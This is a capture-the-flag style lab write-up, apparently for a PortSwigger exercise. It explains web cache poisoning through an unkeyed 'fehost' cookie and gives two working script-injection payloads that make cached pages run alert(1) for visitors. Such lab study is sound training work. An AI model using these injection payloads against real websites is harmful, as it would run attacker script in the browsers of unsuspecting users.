



# Web cache poisoning with an unkeyed cookie
# Objective
This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

# Solution
## Analysis
> Caches identify equivalent requests by comparing a predefined subset of the request's components, known collectively as the "cache key". Typically, this would contain the **request line** and **Host header**. Components of the request that are not included in the cache key are said to be "unkeyed".\
> \
> Source: [PortSwigger - Cache keys information](https://portswigger.net/web-security/web-cache-poisoning)

The cookie value is unkeyed and is reflected to user.
||
|:--:| 
| *Normal request* |

## Exploitation
### First method
Payload:
```
fehost=xyz"}</script><script>alert(1)//
```

||
|:--:| 
| *Web cache poisoning* |

### Second method
Payload:
```
fehost=xyz"-alert(1)-"xyz
```

||
|:--:| 
| *Web cache poisoning - alternative way* |